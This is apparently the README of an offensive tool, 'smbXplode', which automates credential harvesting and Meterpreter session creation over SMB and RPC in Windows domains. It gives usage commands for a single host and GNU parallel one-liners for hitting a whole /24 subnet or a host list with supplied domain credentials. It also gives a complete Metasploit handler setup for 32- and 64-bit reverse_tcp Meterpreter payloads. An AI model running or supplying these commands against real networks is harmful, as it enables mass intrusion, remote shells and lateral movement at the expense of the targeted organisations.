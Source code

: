 # smbXplode

What to do when Metasploit psexec module doesn't work for no good reason? 

This script is used to automate the process of harvesting credentials and getting Meterpreter sessions through smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low privileged credentials; that you want to try them against the whole range and try to escalate your privilege later on. 

You can always re-adapt msfcommands.rc to automate the Metasploit commands that you want to run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. You can always fall back to use the Winexe command (which you can find commented in the script).

## Features 
- Detects remote host architecture before uploading payload
- Abstracts the process of upload/execute payload on remote host
- Combined with "gnu parallel", it can exploit whole ranges/host lists within one command line

### Future improvements
- Better integrate gnu parallel with in the script itself for more convenience.
- Improve the way arguments are passed, add arguments for number of threads, ip ranges, host files. 
- Add the ability to go through a list of captured credentials, to check them against the ip/range in scope. 
- Add pass the hash option if password is not available

## Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 


### Single Host
To run the script simply use the following syntax
```	
./smbXplode.sh domain username password hostIP
```

Example : 
```
./smbXplode.sh domain tito Password2015 10.10.10.10
```

### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

Example 
```
Running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015
```
```
Running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015
```

## Metasploit Handler
Make sure to have your Metasploit handler listening for both payloads ( you can listen two different ports for 32, and 64 ).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

Example :

```
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z
```

Now make sure that your connect back payloads are configured to match those ports and payload type. 

